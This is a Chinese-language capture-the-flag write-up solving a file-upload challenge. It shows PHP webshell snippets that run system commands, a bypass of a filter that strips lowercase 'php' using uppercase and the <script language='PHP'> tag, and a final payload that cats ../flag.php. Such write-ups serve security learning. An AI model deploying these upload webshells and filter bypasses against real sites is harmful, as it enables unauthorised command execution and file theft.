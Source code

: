 # 题目
## 题目内容
想怎么传就怎么传，就是这么任性。  
## tips
flag在flag.php中
## 思路
点进题目链接，是一个文件上传界面：  
![avatar](./picture/upload_1.png)  
随意编了一个 php 文件，上传上去：  
```php
<?php
system("ls");
?>
```
发现还上传成功了，并且还在网页源码的地方给了文件路径：  
![avatar](./picture/upload_2.png)  
访问一下这个文件：  
xxx.ichunqiu.com/u/0.php  
![avatar](./picture/upload_3.png)  
有回显，但是把 php 字符过滤了，试试大写的 php 能不能绕过：  
```php
<?php
echo "phpPHP";
system("ls");
?>
```
芜湖，起飞，大写的可以：  
![avatar](./picture/upload_4.png)  
那么我们尝试使用脚本的写法绕过，然后继续上传：  
```php
<script language="PHP">
system("ls");
</script>
```
再去访问这个文件，成功回显：  
![avatar](./picture/upload_5.png)  
接下来的任务就是找 flag 了，/u/ 的文件夹下没有 flag.php，也没有文件夹，那只能去看父级目录了：   
```php
<script language="PHP">
system("ls ../");
</script>
```
成功找到 flag.php，直接访问这个文件，没有特殊信息：  
![avatar](./picture/upload_6.png)  
那么只能尝试回显 flag.php 的内容了：
```php
<script language="PHP">
//这里用到strtolower函数，用于把PHP转换为php
system("cat ../flag.".strtolower("PHP"));
</script>
```
查看文件，然后查看网页源码，获得 flag：
![avatar](./picture/upload_7.png)  
